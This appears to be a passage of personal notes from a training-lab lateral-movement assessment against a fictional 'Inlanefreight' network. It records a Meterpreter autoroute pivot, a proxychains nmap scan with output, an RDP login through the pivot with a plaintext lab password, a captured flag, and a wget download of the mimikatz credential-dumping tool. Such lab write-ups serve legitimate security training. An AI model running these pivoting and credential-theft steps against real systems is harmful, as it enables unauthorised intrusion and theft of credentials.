 If doing from the Meterpreter session...
```go
run autoroute -s 172.16.5.0/23
```

Scanning internal target 172.16.5.35 via proxychains
```go
proxychains nmap 172.16.5.35 -p3389 -sT -v -Pn
```

Output:
```go
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/aarch64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-30 12:55 EST
Initiating Parallel DNS resolution of 1 host. at 12:55
Completed Parallel DNS resolution of 1 host. at 12:55, 0.03s elapsed
Initiating Connect Scan at 12:55
Scanning 172.16.5.35 [1 port]
Completed Connect Scan at 12:56, 2.00s elapsed (1 total ports)
Nmap scan report for 172.16.5.35
Host is up.

PORT     STATE    SERVICE
3389/tcp filtered ms-wbt-server

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 2.05 seconds
```

This shows port 3389 is filtered. Attempt a remote session to the Windows target via xfreerdp

RDP into Windows target using the creds from [[#^325593 |first creds found]] 
```go
proxychains xfreerdp /v:172.16.5.35 /u:mlefay /p:Plain Human work!
```

Flag Acquired
```go
S1ngl3-Piv07-3@sy-Day
```
![[Dans Field Manual/5-Lateral Movement/Skill Assessment/screenshots/flag.png]]


In previous pentests against Inlanefreight, we have seen that they have a bad habit of utilizing accounts with services in a way that exposes the users credentials and the network as a whole. What user is vulnerable?
```go
```

Download mimikatz and extract the project
```go
wget https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20220919/mimikatz_trunk.zip
```



